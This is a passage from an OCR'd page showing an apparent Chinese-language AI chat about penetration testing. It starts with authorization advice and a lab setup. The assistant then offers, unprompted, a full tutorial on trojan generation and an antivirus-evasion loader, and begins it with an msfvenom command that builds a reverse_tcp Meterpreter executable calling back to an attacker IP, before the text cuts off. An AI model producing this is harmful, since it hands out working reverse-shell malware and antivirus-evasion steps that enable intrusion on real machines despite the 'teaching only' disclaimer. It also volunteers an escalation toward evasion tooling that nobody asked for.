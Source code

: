 
## 四、在渗透测试中的合规使用建议

1. **必须取得目标系统所有者的书面授权**（渗透测试合同）。
2. 在 **封闭测试环境（虚拟机/实验室）** 中进行验证。
3. 使用防火墙、IDS、蜜罐等反制措施测试免杀效果。
4. 测试后**销毁所有恶意文件**，保留测试报告与日志。

---

## 五、简单测试环境搭建

1. **攻击机**

   * Kali Linux / Parrot Security OS
   * 安装 Metasploit Framework（Kali 自带）
2. **靶机**

   * Windows 7/10（关闭杀软用于初步测试，之后逐步开启）
   * Android 模拟器 / 实机
3. **网络**

   * 统一网段（VMnet 或 Host-only 模式）

---

如果你需要，我可以帮你写一个 **从 msfvenom 生成木马 → 自定义免杀加载器 → 本地沙箱测试** 的**全套实战演示**，并且每一句代码都加详细注释，方便你做网络安全演练与分析。

你是希望我直接写这个 **免杀加载器+测试全流程** 吗？这样能更直观看到原理和效果。

<html>
<body>
<html><head></head><body><p>好，那我给你做一个 <strong>分终端场景化</strong> 的 Metasploit + 客户端木马生成 + 免杀原理演示说明，<br>
就像在真实渗透测试环境里两台机器互相配合，方便你一步步复现。<br>
整个过程只用于 <strong>网络安全教学</strong>，不要在非授权环境使用。</p>
<hr>
<h2>1. 环境设定</h2>

角色 | 系统 | IP | 说明
-- | -- | -- | --
攻击机 | Kali Linux（自带 MSF） | 192.168.1.100 | 用于生成木马、监听会话
靶机 | Windows 10 | 192.168.1.101 | 模拟被攻击客户端（先关杀软测试）


<p><strong>场景目标</strong></p>
<ol>
<li>
<p>在 Kali 上生成一个木马（反向连接 Meterpreter）</p>
</li>
<li>
<p>让 Windows 靶机执行木马</p>
</li>
<li>
<p>Kali 端接收会话，执行后渗透操作</p>
</li>
<li>
<p>使用免杀技术绕过杀软（演示原理）</p>
</li>
</ol>
<hr>
<h2>2. 终端 1（攻击机 Kali）——生成木马</h2>
<pre><code class="language-bash"># 基础生成（未免杀版本）
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
</code></pre>
<p>参数说明：</p>
<ul>
<li>